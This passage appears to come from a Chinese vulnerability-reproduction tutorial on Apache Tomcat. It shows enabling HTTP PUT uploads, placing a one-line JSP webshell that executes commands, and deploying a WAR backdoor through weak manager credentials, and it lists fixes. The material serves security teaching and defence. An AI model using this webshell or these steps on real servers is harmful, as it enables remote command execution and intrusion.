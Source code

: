 配置漏洞，开启put方法可上传文件功能。

tomcat文件夹下的/conf/web.xml文件插入：

```
     <init-param>           <param-name>readonly</param-name>           <param-value>false</param-value>     </init-param>
```

重启tomcat服务。

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955083_5c1624cb8ac8a.png!small)

访问127.0.0.1：8080，burp抓包，send to Repeater，将请求方式改为PUT，创建一个122.jsp，并用%20转义空格字符。123.jsp内容为：

```
<%Runtime.getRuntime().exec(request.getParameter("cmd"));%>
```

返回201，说明创建成功。

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955095_5c1624d7b5447.png!small)

访问127.0.0.1：8080/122.jsp?cmd=calc。

弹出计算器：

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955107_5c1624e39d5ed.png!small)

**3、 漏洞修复**

1）检测当前版本是否在影响范围内，并禁用PUT方法。

2）更新并升级至最新版。

### （三）war后门文件部署

**1、漏洞简介及成因**

Tomcat 支持在后台部署war文件，可以直接将webshell部署到web目录下。

若后台管理页面存在弱口令，则可以通过爆破获取密码。

**2、漏洞复现**

Tomcat安装目录下conf里的tomcat-users.xml配置如下：

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955120_5c1624f0e6795.png!small)

访问后台，登陆：

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955131_5c1624fb87534.png!small)

上传一个war包，里面是jsp后门：

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955146_5c16250a9c859.png!small)

成功上传并解析，打开：

![img](https://imgurl-1304573507.cos.ap-shanghai.myqcloud.com/1544955158_5c162516bfdc4.png!small)
